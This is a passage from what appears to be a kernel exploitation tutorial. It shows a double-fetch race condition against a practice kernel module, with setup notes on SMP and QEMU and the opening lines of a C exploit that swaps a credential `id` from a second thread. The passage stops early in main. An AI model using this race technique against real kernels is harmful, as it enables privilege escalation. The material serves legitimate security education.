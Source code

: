 <figure><img src="../../../.gitbook/assets/double_fetch_id (1).svg" alt=""><figcaption></figcaption></figure>

In the waiting period, we swap out the `id`.

{% hint style="info" %}
If you are trying to compile your own kernel, this will **only** work if you have `CONFIG_SMP` enabled, because we need to modify it in a different thread! Additionaly, you need QEMU to have the flag `-smp cores=2` (or more), though it may default to having multiple even without the flag.

The C program will hang on `write` until the kernel module returns, so we can't use the main thread.
{% endhint %}

With that in mind, the "exploit" is fairly self-explanatory - we start another thread, wait 0.3 seconds, and change `id`!

{% code overflow="wrap" lineNumbers="true" %}
```c
// gcc -static -o exploit -pthread exploit.c

#include <fcntl.h>
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void *switcher(void *arg);

typedef struct {
    int id;
    char password[10];
} Credentials;

int main() {
    // communicate with the module
    int fd = open("/dev/double_fetch", O_RDWR);
```